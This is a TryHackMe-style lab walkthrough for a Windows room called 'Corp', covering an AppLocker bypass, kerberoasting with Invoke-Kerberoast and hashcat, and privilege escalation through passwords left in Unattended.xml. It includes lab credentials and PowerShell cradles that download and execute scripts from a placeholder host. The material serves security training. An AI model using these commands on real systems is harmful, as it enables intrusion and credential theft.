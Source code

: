 # [Corp](https://tryhackme.com/r/room/corp)

![Corp](./images/Corp.png)

Bypass Windows Applocker and escalate your privileges. You will learn about kerberoasting, evading AV, bypassing applocker and escalating your privileges on a Windows system.

## Task 1 - Deploy the Windows machine

In this room, you will learn the following:

1. Windows Forensics
2. Basics of kerberoasting
3. AV Evading
4. Applocker

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

### Answer the questions below

Deploy the windows machine, you will be able to control this in your browser. However if you prefer to use your own RDP client, the credentials are below.

Username: `corp\dark`  
Password: `_QuejVudId6`

## Task 2 - Bypassing Applocker

![task2-logo](./images/task2-logo.png)

AppLocker is an application whitelisting technology introduced with Windows 7. It allows restricting which programs users can execute based on the programs path, publisher, and hash.

You will have noticed that with the deployed machine, you cannot execute your binaries, and certain functions on the system will be restricted.

### Answer the questions below

There are many ways to bypass AppLocker.

If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory: `C:\Windows\System32\spool\drivers\color` - This is whitelisted by default. 

* Go ahead and use PowerShell to download an executable of your choice locally, place it in the whitelisted directory and execute it.

Just like Linux bash, Windows Powershell saves all previous commands into a file called **ConsoleHost_history**. This is located at `%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

* Access the file and obtain the flag.

## Task 3 - Kerberoasting

<img src="./images/task3-logo.png" height=300  width=auto>

It is important you understand how Kerberous actually works in order to know how to exploit it. Watch the video below.

[![Kerberos](./images/task3-thumbnail.png)](https://www.youtube.com/embed/LmbP-XD1SC8)

Kerberos is the authentication system for Windows and Active Directory networks. There are many attacks against Kerberos, in this room we will use a Powershell script to request a service ticket for an account and acquire a ticket hash. We can then crack this hash to get access to another user account!
Answer the questions below

Lets first enumerate Windows. If we run `setspn -T medin -Q */*` we can extract all accounts in the SPN.

SPN is the Service Principal Name, and is the mapping between service and account.

Running that command, we find an existing SPN. What user is that for?

Now we have seen there is an SPN for a user, we can use Invoke-Kerberoast and get a ticket.

Lets first download the Powershell [Invoke-Kerberoast](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1).

```
powershell -ep bypass;
iex(New-Object Net.WebClient).DownloadString('https://YOUR_IP/Kerberoast.ps1') 
```

Now lets load this into memory: `Invoke-Kerberoast -OutputFormat hashcat |fl`

You should get a SPN ticket.

<img src="./images/task3-hascat.png" height=400  width=auto>

Lets use hashcat to bruteforce this password. The type of hash we're cracking is **Kerberos 5 TGS-REP etype 23** and the hashcat code for this is **13100**.

```
hashcat -m 13100 -a 0 hash.txt wordlist --force
```

Crack the hash. What is the users password in plain text?

Login as this user. What is his flag?

## Task 4 - Privilege Escalation

<img src="./images/task4-logo" height=300  width=auto>

We will use a PowerShell enumeration script to examine the Windows machine. We can then determine the best way to get Administrator access.

### Answer the questions below

We will run [PowerUp1.ps1](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1) into memory for enumerating any weakness to abuse for local privilege escalation.

```
powershell -ep bypass;
iex​(New-Object Net.WebClient).DownloadString('http://YOUR_IP/PowerUp.ps1') 
```

The script has identified several ways to get Administrator access. The first being to bypassUAC and the second is UnattendedPath. We will be exploiting the UnattendPath way.

"Unattended Setup is the method by which original equipment manufacturers (OEMs), corporations, and other users install Windows NT in unattended mode." Read more about it [here](https://support.microsoft.com/en-us/topic/77504e1d-2b75-5be1-3eef-cec3617cc461).

It is also where users passwords are stored in base64 encoding. Navigate to `C:\Windows\Panther\Unattend\Unattended.xml`.

![task4-xml](./images/task4-xml.png)

* What is the decoded password?

* Now we have the Administrator's password, login as them and obtain the last flag.